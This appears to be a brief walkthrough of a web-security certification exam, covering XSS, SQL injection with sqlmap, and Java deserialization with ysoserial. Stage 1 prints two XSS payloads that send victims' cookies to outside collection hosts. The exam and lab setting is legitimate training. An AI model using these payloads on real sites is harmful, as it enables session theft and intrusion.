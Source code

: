 **Stage 1**  XSS  
```
"-(window["document"]["location"]="https://exploit%2D0ac7002303d74533c0b472c9016a00f3%2Eexploit%2Dserver%2Enet/?c="+window["document"]["cookie"])-"  
OR my variant:  
"-(window["location"]="http://umk7m0a67ilv35u5uonbj2i08rei29qy%2eoastify%2ecom/?c="+window["document"]["cookie"])}//
```
  
**Stage 2**  SQL Injection  
Just pass it through sqlmap.
  
**Stage 3**  Insecure Deserialization  
The same as labs with Java Deserialization. Payload is base64 + gzip, the only thing you need to brute is CommonsCollections version, just generate a couple payloads with ysoserial with different CommonsCollections version  
[Insecure deserialization](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner#insecure-deserialization)  
  

# Footnote
> In general: Quite hard, passed it on the second try. I recieved the certificate 7 days after passing the exam, so keep calm about this.  
> A really big thanks for my subscribers on [Arm1tage](https://t.me/arm1tage), I really do appreciate all your support... and... all the 💩 and 🤡 emotions under the posts XD (those who know, know).  
> Buy me a... oh... wait... I don't give a fuck about money, all this is for free.
